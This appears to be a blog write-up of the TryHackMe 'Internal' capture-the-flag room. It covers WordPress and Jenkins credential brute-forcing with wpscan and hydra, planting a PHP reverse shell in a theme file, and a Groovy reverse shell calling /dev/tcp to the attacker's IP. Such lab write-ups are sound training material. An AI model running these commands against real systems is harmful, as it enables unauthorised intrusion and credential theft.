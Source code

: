 ```yaml
---
layout: post
title: "Internal"
date: 2022-04-01
categories: [Tryhackme, Hard-THM]
tags: [security, accessible, pentest, security-misconfigurations]
image: ../../assets/img/posts/Internal.png 

---
```


## Description

Penetration Testing Challenge.

|**Room**|[Internal](https://tryhackme.com/room/internal)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Hard|
|**Creator**|[TheMayor](https://tryhackme.com/p/TheMayor)|

---

Starting off with deploying the machine, exporting IP and quickly scanning the open ports with rustscan,

```bash
export IP=10.10.103.145
rustscan -a $IP --range 0-65535 --ulimit 5000 -- -sVC -Pn -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/161196169-d1afe4f3-ca4a-42f4-928a-c45bfa98cc4c.png)

Result scan shows that port 22 is running ssh service and port 80 is running apache webserver. Let's dive it.

Starting enumeration on port 80 by visiting http://$IP and we land on a Apache Default webpage,

![image](https://user-images.githubusercontent.com/67465230/161196170-f3fa54eb-f28a-49f5-b669-0829489c3ab2.png)

Let's quickly add the IP address of the machine corresponding with domain name of **internal.thm** in /etc/hosts file so that we don't have to navigate to IP address everytime, and we can just navigate to internal.thm, which will present us with webpage of the website,

```bash
echo "$IP    internal.thm" >> /etc/hosts
```

After all of this, let's fuzz the directories to see if there is any hidden path we found,

```bash
dirsearch -u http://internal.thm -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt -q 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/161196183-e8dc3843-e968-493e-abb3-a24240264df3.png)

and we did, a **/wordpress**, which is super interesting.

Navigating to http://internal.thm/wordpress and we will land on a webpage which shows us that it is indeed a wordpress website,

![image](https://user-images.githubusercontent.com/67465230/161196193-c76f5bb7-3c67-4849-827a-e8734c83c8b0.png)

I was just playing around and tried to search something with letter 'a' but didn't got anything,

![image](https://user-images.githubusercontent.com/67465230/161196205-881e9711-e4c4-4d44-9d30-f58dc8a7088b.png)

Then I decided to scan this website using **wpscan** tool,

```bash
wpscan --url http://internal.thm/wordpress/ -e | tee wpscan.log
```

![image](https://user-images.githubusercontent.com/67465230/161196218-fabcb9ec-5710-4607-91a5-aba6de98ae3d.png)

after enumerating the website with wpscan, we got a username **admin** (this made my life easier!).

Now, I already know that I can't login into website yet because I don't have any credentials yet so first I wrote down the username in user.txt file and then using the rockyou.txt, I brute forced the credentials of admin user,

```bash
wpscan --url http://internal.thm/wordpress/ -U user.txt -P /usr/share/wordlists/rockyou.txt -t 10
```

![image](https://user-images.githubusercontent.com/67465230/161196238-3e66ad85-c1c6-4943-b015-29c716574ecf.png)

after 30 minutes or so, I got the admin password.

So let's visit http://internal.thm/blog/wp-login.php, enter credentials and boom, we got access to panel

![image](https://user-images.githubusercontent.com/67465230/161196249-77ba45ab-afb2-4015-8f52-1beeb3f0bc48.png)

After roaming all over the website, I finally noticed that there is a private post which has no title at all,

![image](https://user-images.githubusercontent.com/67465230/161196264-1f080fc3-801c-4244-b026-7e0eb33c4e93.png)

So I clicked onto the private blog and we can see the credentials of william user,

![image](https://user-images.githubusercontent.com/67465230/161196269-40da28d6-3a47-4165-bedb-9e8dc71fd9cf.png)

So I tried to ssh using these credentials just to know that this is a rabit hole,

```bash
ssh william@internal.thm
```

![image](https://user-images.githubusercontent.com/67465230/161196290-f374e9ad-5b66-4310-8f12-000b23c405a6.png)

Then I move forward with finding a 404.php file in wordpress and there I saw that I can edit this file so I put my [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell) here, *I already changed my IP and port*

![image](https://user-images.githubusercontent.com/67465230/161196303-459334ee-b798-4fe2-90e3-85540d9be9a8.png)

After saving the file, we can start the listener using `nc -nvlp 4444` and then we can trigger the shell by issuing a request,

```bash
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

and we can see that we will get the reverse shell as **www-data user**,

![image](https://user-images.githubusercontent.com/67465230/161196311-d1373ae8-775c-4df4-b3b9-e34d5a5024b5.png)

We know that the current shell is unstable so we'll make this shell stable using sequence of commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL + Z
stty raw -echo; fg
stty rows 56 columns 238
```

Enumerating the whole system and there is a **wp-save.txt** file in /opt directory and reading the file gives us the credentials of aubreanna user,

![image](https://user-images.githubusercontent.com/67465230/161196326-53051408-95e9-4094-8641-303abd25aa11.png)

Let's switch to aubreanna user quickly,

![image](https://user-images.githubusercontent.com/67465230/161196338-286533e2-e238-41b1-86f8-9bf509ea58d3.png)

Enumerating home directory of aubreanna user and we get a user flag and a jenkins.txt file,

![image](https://user-images.githubusercontent.com/67465230/161196356-78ceb5b3-e213-4df3-8023-2967ec69be98.png)

Viewing the content of the jenkins file and we can see that the internal jenkins service is running on 172.17.0.2:8080 port,

![image](https://user-images.githubusercontent.com/67465230/161196362-e2f378e7-dc0a-4ec7-bd07-3e381c29a243.png)

Let's check the network statistics by issuing `netstat` command and we can see that port 8080 is internally open,

```bash
netstat -tlnp
```

![image](https://user-images.githubusercontent.com/67465230/161196375-47454e62-471a-4408-bc04-94eb51530646.png)

With ssh port forwarding, we can access the internal port,

```bash
ssh -L 8081:127.0.0.1:8080 aubreanna@internal.thm
```

![image](https://user-images.githubusercontent.com/67465230/161196380-7b0997b5-e52f-415c-880f-b00eba7e63fc.png)

after visiting the http://127.0.0.1:8080 we are redirected to jenkins login page and from here, we need a way to get access to panel. But since we don't have credentials, we need to brute force them.

I started the burp suite, let the burp catches the request having a POST request with the credentials of admin:admin,

![image](https://user-images.githubusercontent.com/67465230/161196388-ca70221f-6ff4-44e5-bf0d-2967302b678a.png)

We will use this POST data in hydra tool to brute force the credentials of the admin user, 

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8081 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password"
```

![image](https://user-images.githubusercontent.com/67465230/161196397-8dababca-fecd-4da5-9474-0ddc484a963c.png)

after waiting for sometime, we got the credential for admin user.

After accessing the panel, we're being welcomed to jenkins dashboard,

![image](https://user-images.githubusercontent.com/67465230/161196405-55deb898-87ed-4594-8af3-0979913132af.png)

Navigating around the website and there I got the script console which we can used to get a reverse shell on the system,

![image](https://user-images.githubusercontent.com/67465230/161196410-eaf41e15-e34b-404b-8129-1a48448026d1.png)

So I pasted a JAVA reverse shell and started the netcat listener using `nc -nvlp 5555`, we get the reverse shell,

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.9.11.12/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![image](https://user-images.githubusercontent.com/67465230/161196420-69cf511a-5604-4cb0-bb3a-e27add896ac1.png)

From here, I got a real unstable shell which I tried to make it stable but can't. So I decided to enumerate the things further and got the note.txt file in /opt directory and there I got the root user credentials,

![image](https://user-images.githubusercontent.com/67465230/161196431-297d237f-598a-4e16-9595-d9b0e3d68ae7.png)

After then I decided switch to root user on the shell where I got the note.txt file, but was unsuccessful. Then I tried the same credentials of root user on ssh and successfully got the system access, 

![image](https://user-images.githubusercontent.com/67465230/161196444-2bd0a6b9-8dae-42db-90fd-ab0d31469c0c.png)
